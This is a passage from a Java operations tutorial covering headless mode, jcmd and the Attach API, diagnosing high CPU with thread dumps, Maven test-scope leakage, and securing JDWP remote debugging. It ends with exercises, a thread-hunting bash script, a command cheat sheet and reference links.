## 13. Interview Preparation

### 13.1 Foundational Questions

#### Q1: What does `java.awt.headless=true` do, and why is it mandatory for enterprise backend servers?
**Answer:** In headless Linux servers, there is no display monitor, keyboard, mouse, or X11/Wayland display server (`$DISPLAY` is unset). The system property `java.awt.headless=true` instructs the Java Virtual Machine to execute graphics-related operations (such as font metrics, image resizing, chart plotting, and PDF rendering via AWT/2D) purely in memory using software rasterization rather than attempting to connect to an operating system display server. Without this flag, calls to graphical classes will crash with a `java.awt.HeadlessException`.

#### Q2: What is the HotSpot Attach API, and how does `jcmd` communicate with a running Java process?
**Answer:** The HotSpot Attach API is a dynamic mechanism provided by OpenJDK that allows external diagnostic tools to communicate with a live JVM process on the same host without requiring custom agent flags at startup. When the target JVM launches, it creates a POSIX domain socket (or door file) at `/tmp/.java_pid<PID>`. When a user runs `jcmd <PID> <command>`, `jcmd` connects to this Unix domain socket, verifies POSIX user ownership permissions, transmits the command string, and the JVM's internal `Attach Listener` thread executes the operation and streams the diagnostic output back over the socket.

### 13.2 Production Scenario Questions

#### Q3: You notice that a production backend service has stopped responding to HTTP traffic and CPU utilization is pinned at 100%. You have only an SSH terminal. How do you identify the cause?
**Answer:**
1. Connect via SSH and find the process PID: `pgrep -fl java`.
2. Inspect garbage collection behavior: `jstat -gcutil <PID> 1000 5`. If Old Gen (`O`) is near 100% and Full GC time (`FGCT`) is continuously climbing, the JVM is caught in a Full GC thrashing loop due to memory exhaustion.
3. If GC is normal, capture a thread dump: `jcmd <PID> Thread.print > /tmp/threads.txt`.
4. Inspect the thread dump for deadlocks (`Found 1 deadlock`) or for multiple worker threads stuck in `BLOCKED` states waiting for the same monitor lock.
5. Use `top -H -p <PID>` to find the specific Linux thread LWP consuming 100% CPU, convert that LWP number to hexadecimal, and search for that `nid=0x...` in the thread dump to identify the exact line of Java code in an infinite loop.

#### Q4: Why does a Maven build pass on a developer's IntelliJ instance but fail in GitHub Actions with `package org.junit.jupiter.api does not exist`?
**Answer:** This is a classic classpath scope leakage error. In Maven, the JUnit dependency is declared with `<scope>test</scope>`, meaning it is strictly available only to code in `src/test/java`. IntelliJ's internal module builder often merges test and compile classpaths into a single permissive workspace model. A developer accidentally imported a test assertion class inside `src/main/java`. IntelliJ compiles it without complaint, but the headless GitHub Actions CI runner executes a strict `mvn compile`, which enforces declared scopes, recognizes that `src/main/java` cannot see test-scoped artifacts, and fails the build.

### 13.3 Lead & Principal Architect Questions

#### Q5: Explain the security risks associated with enabling JDWP on a cloud-hosted JVM, and describe the defense-in-depth architecture required to enable safe remote debugging.
**Answer:** JDWP was designed purely as an internal development protocol and completely lacks authentication, authorization, and transport encryption. Anyone who can establish a TCP connection to an open JDWP port can use standard debugger protocol packets to execute arbitrary Java code and invoke OS system calls, resulting in immediate remote code execution (RCE) with the privileges of the JVM process.
To enable safe remote debugging:
1. **Never bind to wildcard interfaces:** The JDWP agent must be explicitly configured with `address=127.0.0.1:5005` so it listens only on the local loopback interface.
2. **Network Security:** Cloud security groups and firewall rules must explicitly drop all inbound traffic on port 5005 from external networks.
3. **Encrypted Transport:** Engineers must establish an authenticated, encrypted SSH tunnel (`ssh -L 5005:127.0.0.1:5005 user@bastion`) to bridge their local IDE to the remote loopback address.
4. **Lifecycle Restriction:** JDWP should never be enabled in production environments handling sensitive user data; it should be restricted to isolated staging environments or ephemeral debug pods.

---

## 14. Practice and Assessment

### Exercise 1: Beginner (Capturing Headless Diagnostics)
Launch a simple background Java program in your Linux terminal. Using only command-line JDK utilities:
1. Determine its Process ID (PID).
2. Print its thread dump to a file named `threads.txt`.
3. Extract the active Garbage Collector name and heap usage statistics using `jcmd`.
4. Terminate the process cleanly using POSIX signals.

### Exercise 2: Applied (Debugging a Simulated Scope Leakage Bug)
Create a Maven-style project structure manually in your workspace:
- Put a Java class `OrderService.java` in `src/main/java/com/example/`.
- Intentionally include `import org.junit.jupiter.api.Assertions;` inside `OrderService.java`.
- Attempt to compile using `javac` with a compile-time classpath that omits the JUnit JAR.
- Observe the compilation failure, identify the architectural issue, and refactor the code to remove the test dependency.

### Exercise 3: Challenge (Authoring an Automated High-CPU Thread Hunter Script)
Write a bash script `find-hot-thread.sh` that:
1. Takes a Java process PID as an argument.
2. Uses Linux `top -H -b -n 1 -p <PID>` to identify the single OS thread consuming the highest CPU percentage.
3. Converts that OS thread ID (LWP) to hexadecimal.
4. Uses `jcmd <PID> Thread.print` to find the exact matching Java thread (`nid=0x...`) and outputs its stack trace.

---

### Hints
- *Exercise 1:* Review Section 4.2. Use `jcmd <PID> Thread.print` and `jcmd <PID> GC.heap_info`.
- *Exercise 2:* Remember that production code in `src/main/java` should never depend on testing frameworks.
- *Exercise 3:* In bash, convert a decimal thread ID to lowercase hexadecimal with: `printf "0x%x" $TID`. Then grep the thread dump with `grep -A 30 "$HEX_NID"`.

---

### Solutions Walkthrough

#### Exercise 1 Solution:
```bash
# 1. Compile and launch in background
javac HeadlessBackendDaemon.java
java -Djava.awt.headless=true HeadlessBackendDaemon &
PID=$!

# 2. Print thread dump
jcmd $PID Thread.print > threads.txt

# 3. Print GC and Heap information
jcmd $PID GC.heap_info

# 4. Clean shutdown
kill -15 $PID
```

#### Exercise 3 Solution:
```bash
#!/usr/bin/env bash
# File: find-hot-thread.sh
set -euo pipefail

if [ $# -ne 1 ]; then
    echo "Usage: $0 <JAVA_PID>"
    exit 1
fi

PID=$1

echo "==> Scanning for hottest OS thread in PID $PID..."
# Extract the thread ID with highest CPU from top
HOT_TID=$(top -H -b -n 1 -p "$PID" | awk 'NR>7 && $9 > 0 {print $1; exit}')

if [ -z "$HOT_TID" ]; then
    echo "No actively consuming threads found."
    exit 0
fi

# Convert decimal TID to hex
HEX_TID=$(printf "0x%x" "$HOT_TID")
echo "  Found hot OS thread: $HOT_TID (Hex: $HEX_TID)"

echo "==> Correlating with Java Stack Trace..."
jcmd "$PID" Thread.print | grep -A 25 "nid=${HEX_TID}" || echo "Thread trace not found."
```

---

### Mastery Self-Assessment Checklist
- [ ] I can explain why code that compiles in an IDE might fail in a terminal or CI environment.
- [ ] I know why `java.awt.headless=true` is necessary on headless Linux servers.
- [ ] I understand how the HotSpot Attach API communicates over `/tmp/.java_pid<PID>`.
- [ ] I can capture a thread dump with `jcmd <PID> Thread.print` and explain what it contains.
- [ ] I can monitor real-time garbage collection statistics using `jstat -gcutil`.
- [ ] I understand how JDWP works and why binding it to `0.0.0.0` is an extreme security vulnerability.
- [ ] I can establish an SSH tunnel to securely debug a remote Java process from a local IDE.
- [ ] I can navigate and set breakpoints in a headless terminal using `jdb`.

---

## 15. Summary, Cheat Sheet, and Memory Aids

### Core Principles
1. **The CLI build is king.** If `mvn clean verify` fails in the terminal, the build is broken—regardless of what IntelliJ shows.
2. **Headless by default.** Production servers have no monitors. Always ensure headless mode is respected.
3. **`jcmd` is your Swiss Army knife.** Learn `jcmd <PID> Thread.print` and `jcmd <PID> GC.heap_info` by heart.
4. **Never expose JDWP.** Always bind to `127.0.0.1` and connect via SSH port forwarding (`ssh -L`).
5. **Beware heap dump pauses.** Never run `jmap -dump:live` on a live production instance during business hours.

### Diagnostic Command Cheat Sheet

```bash
# Discover Java PIDs
jcmd -l

# Capture thread dump
jcmd <PID> Thread.print

# Sample GC metrics every 1s
jstat -gcutil <PID> 1000 5

# Inspect heap memory pools
jcmd <PID> GC.heap_info

# Attach command-line debugger
jdb -attach 127.0.0.1:5005

# Forward remote debug port securely
ssh -N -L 5005:127.0.0.1:5005 user@remote-host
```

---

## 16. Sources and Further Reading

### Primary Specifications & Authoritative Sources
- **The Java Debug Wire Protocol (JDWP) Specification:**
  - Official Oracle JDWP Reference: [JDWP Specification](https://docs.oracle.com/en/java/javase/21/docs/specs/jdwp/jdwp-spec.html)
- **OpenJDK HotSpot Diagnostic Tools & Troubleshooting Guide:**
  - Oracle Diagnostic Tools Guide (`jcmd`, `jstack`, `jstat`): [HotSpot Diagnostic Tools](https://docs.oracle.com/en/java/javase/21/troubleshoot/diagnostic-tools.html)
- **The HotSpot Attach API Architecture:**
  - OpenJDK Serviceability Agent and Attach API: [OpenJDK Serviceability](https://openjdk.org/groups/serviceability/)
- **Java AWT Headless Mode Specification:**
  - Oracle Headless Mode Guide: [Headless Mode Guide](https://www.oracle.com/technical-resources/articles/javase/headless.html)
